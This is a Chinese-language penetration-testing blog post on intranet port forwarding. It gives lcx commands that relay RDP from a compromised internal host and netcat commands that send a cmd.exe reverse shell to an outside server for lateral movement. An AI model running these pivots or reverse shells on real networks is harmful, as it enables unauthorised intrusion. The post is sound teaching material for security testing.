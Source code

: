 # 浅谈内网端口转发

[cmdgaga ](https://www.freebuf.com/author/cmdgaga)2019-08-20 13:30:15 441651 8

**在渗透测试过程中，我们经常会用到端口转发，利用代理脚本将内网的流量代理到本地进行访问，这样极大的方便了我们对内网进行横向渗透。最常见的端口转发工具不限于以下几款，大家可以根据在实际测试过程的需要进行选择。**

![img](https://image.3001.net/images/20190806/1565081776_5d4940b066822.png!small)

## 开门见山

### lcx端口转发

前提是在端口转发的时候需要一台公网服务器，lcx是一款轻便的端口转发工具，Lcx程序多用于被控制计算机处于内网的时候，被控制机可能中了木马程序，虽然能够进行控制，但还是没有使用远程终端登录到本机进行管理方便，因此在很多情况下，都会想方设法在被控制计算机上开启3389端口，然后通过lcx等进行端口转发，进而在本地连接到被控制计算机的远程终端并进行管理和使用。在没有端口转发的情况下外网主机是不能直接连接内网主机的，但是lcx工具可以将内网主机（出入内网主机的需要能够ping通互联网）的某个端口抓发到外网的某个端口上面，这样的话处于外网的主机可以将映射到外网的端口再反弹到另一个外网的端口上面（用的最多的是3389），这样我们就可以直接远程连接反弹的端口就可以与内网主机进行通信。故内网已经打通，说实话lcx的工具如同在路由器上面做了端口转发。

![img](https://image.3001.net/images/20190806/1565084440_5d494b183ed27.png!small)

在被控制端执行命令：`lcx.exe -slave 192.168.205.1 53 192.168.205.143 3389`, 将内网3389端口转发到公网53端口；

在控制端执行命令：`lcx.exe -tran 53 1234` , 将接收到的53端口反弹到1234端口；

执行完毕后，我们会发现内网的3389已经反弹到公网53端口：

![img](https://image.3001.net/images/20190806/1565085503_5d494f3feeaf1.png!small)

我们本地远程连接192.168.205.1:1234,就可以访问到内网主机,这样我们就可以远程登陆内网服务器，进行内网的横向扫描（请勿非法使用）：

![img](https://image.3001.net/images/20190806/1565085558_5d494f765ff26.png!small)

![img](https://image.3001.net/images/20190806/1565085558_5d494f767164e.png!small)

### nc端口转发

nc这个工具不仅可以反弹端口，也可以作为扫描器使用，在这里我们只是介绍一下端口转发的作用。内网服务器将cmd.exe(就是个shell)主动响应到你电脑的777端口。你再在本地机上监听777端口，这样就进入了对方的cmd了。

我们在分别在内网与公网服务器执行以西命令：

nc -t -e cmd.exe 192.168.205.1 8888 //在内网服务器上面执行此命令，将在公网服务器开启一个cmd的窗口；

nc -lvp 8888 //在公网服务器上面执行此命令，接受来自内网的信息，将信息反馈到公网的8888端口；

当我们端口转发成功后，在公网服务器上面会反弹一个cmd的命令窗口，这个就是内网服务器的，在上面可以执行系统命令，如下图所示：

![img](https://image.3001.net/images/20190807/1565140673_5d4a26c18ef24.png!small)

![img](https://image.3001.net/images/20190807/1565140684_5d4a26cc45501.png!small)

![img](https://image.3001.net/images/20190807/1565140684_5d4a26cc4e1a2.png!small)
